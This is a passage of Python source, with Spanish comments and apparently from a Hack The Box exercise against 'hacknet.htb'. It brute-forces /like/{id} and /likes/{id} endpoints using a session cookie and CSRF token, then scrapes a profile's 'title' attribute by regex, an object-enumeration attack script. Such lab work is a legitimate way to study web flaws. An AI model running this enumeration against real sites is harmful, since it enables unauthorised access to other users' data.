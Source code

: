 ```python
            
            if response.status_code == 200:
                # Buscar específicamente el perfil 37
                if '/profile/37' in response.text:
                    # Extraer el título del perfil 37
                    match = re.search(
                        r'<div class="likes-review-item"><a href="/profile/37"><img src="[^"]+" title="([^"]+)"></a></div>',
                        response.text
                    )
                    if match:
                        title = match.group(1)
                        found_instances.append(f"Endpoint /likes/{likes_id} -> /profile/37 - title=\"{title}\"")
                        print(f"[+] ENCONTRADO: /likes/{likes_id} -> /profile/37 - title=\"{title}\"")
                        
        except Exception as e:
            print(f"[-] Error en /likes/{likes_id}: {e}")
    
    print("[*] Escaneando endpoints /like/{id} (0-100) para perfil 37...")
    
    # Escanear endpoints /like/{id} del 0 al 100
    with ThreadPoolExecutor(max_workers=10) as executor:
        futures = [executor.submit(check_like_endpoint, i) for i in range(max_id + 1)]
        
        for future in as_completed(futures):
            future.result()
    
    print(f"\n[*] Escaneando endpoints /likes/{id} (0-100) para perfil 37...")
    
    # Escanear endpoints /likes/{id} del 0 al 100
    with ThreadPoolExecutor(max_workers=10) as executor:
        futures = [executor.submit(check_likes_endpoint, i) for i in range(max_id + 1)]
        
        for future in as_completed(futures):
            future.result()
    
    # Mostrar resultados
    print(f"\n{'='*60}")
    print("RESULTADOS - PERFIL 37 ENCONTRADO EN:")
    print('='*60)
    
    if found_instances:
        for instance in sorted(found_instances):
            print(instance)
    else:
        print("❌ No se encontró el perfil 37 en ningún endpoint")
    
    return found_instances

def quick_scan_profile_37(target, csrf_token, session_id):
    """
    Versión rápida que solo busca el perfil 37
    """
    headers = {
        'Host': 'hacknet.htb',
        'Cookie': f'csrftoken={csrf_token}; sessionid={session_id}',
        'X-Requested-With': 'XMLHttpRequest'
    }
    
    print("[*] Búsqueda rápida del perfil 37 en endpoints /likes/...")
    
```